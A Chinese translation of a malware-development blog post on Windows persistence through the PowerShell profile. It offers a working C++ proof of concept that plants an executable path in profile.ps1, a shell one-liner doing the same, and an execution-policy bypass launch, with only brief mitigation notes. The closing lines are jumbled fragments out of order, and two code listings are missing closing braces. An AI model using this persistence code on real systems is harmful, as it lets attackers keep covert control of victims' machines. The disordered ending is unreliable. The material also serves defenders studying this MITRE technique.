\newpage
\subsection{恶意软件开发：持久化（第 11 部分）——PowerShell 配置文件（简单的 C++ 示例）}

﷽

{width="80%"}

这篇文章是我自己对一个有趣的恶意软件持久化技巧的研究结果：通过 PowerShell 配置文件实现持久化。

### powershell 配置文件

PowerShell 配置文件是一个 PowerShell 脚本，它允许系统管理员和最终用户在 Windows PowerShell 会话开始时配置自己的环境并执行指定的命令。

PowerShell 配置文件脚本存储在 WindowsPowerShell 文件夹中：

{width="80%"}

我们把下面的代码添加到当前用户的配置文件里，这样只要被感染的用户进入 PowerShell 控制台，它就会被执行：

`Z:\2022-09-20-malware-pers-11\hack.exe`

我会用一个实战示例来演示一切，你就会明白一切了。

### 实战示例

首先，创建我们的「恶意」文件：

```cpp
/*
hack.cpp
evil app for windows
persistence via powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

和往常一样，它只是一个「meow-meow」消息框。

编译它：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

我们可以在受害机器上运行它来检查正确性：

{width="80%"}

然后我们做这个简单的「小把戏」：

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > 
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

最后，运行 PowerShell：

```powershell
powershell -executionpolicy bypass
```

{width="80%"}

{width="80%"}

如你所见，我们的恶意逻辑按预期执行了，并且 PowerShell 是我们消息框的父进程。=..=

我写了一个简单的 PoC 代码来自动完成这个过程：

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
  printf("unable to create dir: %s\n", path);
  } else {
  printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
  path,
  GENERIC_WRITE,
  0,
  NULL,
  CREATE_NEW,
  FILE_ATTRIBUTE_NORMAL,
  NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
  printf("unable to create file: %s\n", path);
  } else {
  printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
  printf("unable to write to file %s\n", path);
  } else {
  printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;

```

逻辑很简单，这个脚本只是在配置文件文件夹不存在时创建它，然后创建配置文件并更新它。

### 演示

我们来看看一切的实际运行。

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

并在受害者的机器上运行它：

```powershell
.\pers.exe
```

{width="80%"}

{width="80%"}

然后当 PowerShell 会话启动时：

{width="80%"}

如果我们用 Process Hacker 检查：

{width="80%"}

如预期的那样，`powershell.exe` 再次成为父进程。

如你所见，一切都完美地工作了！=..=

如果 PowerShell 在没有 execution policy bypass 模式的情况下运行，那么在我的例子中这个持久化技巧就不起作用：

{width="80%"}

通过在配置文件脚本中存储任意指令，PowerShell 配置文件提供了多种代码执行的机会。

```powershell
$PROFILE | select *
```

{width="80%"}

为了避免依赖用户去启动 PowerShell，你可以使用一个在特定时间执行 PowerShell 的计划任务。

### 缓解措施

另外，如果不需要，你也可以避免使用 PowerShell 配置文件，例如通过 `-No-Profile` 标志。

在野外，这个持久化技巧被 Turla 使用。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)  
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)  
[Turla](https://attack.mitre.org/groups/G0010/)  
[source code on github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)

编译我们的 PoC：

但有一个注意事项。

另外，根据你所拥有的权限，有四个位置可以滥用 PowerShell 配置文件：

强制只执行经过签名的 PowerShell 脚本。

对配置文件进行签名，以避免它们被修改。
